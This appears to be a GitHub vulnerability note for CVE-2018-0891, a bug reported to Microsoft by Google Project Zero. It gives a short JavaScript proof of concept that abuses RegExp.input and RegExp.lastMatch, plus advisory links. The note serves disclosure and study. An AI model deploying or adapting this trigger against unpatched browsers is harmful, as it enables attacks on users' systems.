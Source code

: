 # CVE-2018-0891

- Report: Dec 2017
- Fix: Mar 2018
- Credit: ifratric of Google Project Zero

## PoC

```javascript
function main() {
  RegExp.input = {toString: f};
  alert(RegExp.lastMatch);
}

var input = [Array(10000000).join("a"), Array(11).join("b"), Array(100).join("a")].join("");

function f() {
  String.prototype.match.call(input, "bbbbbbbbbb");
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-0891)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1461)
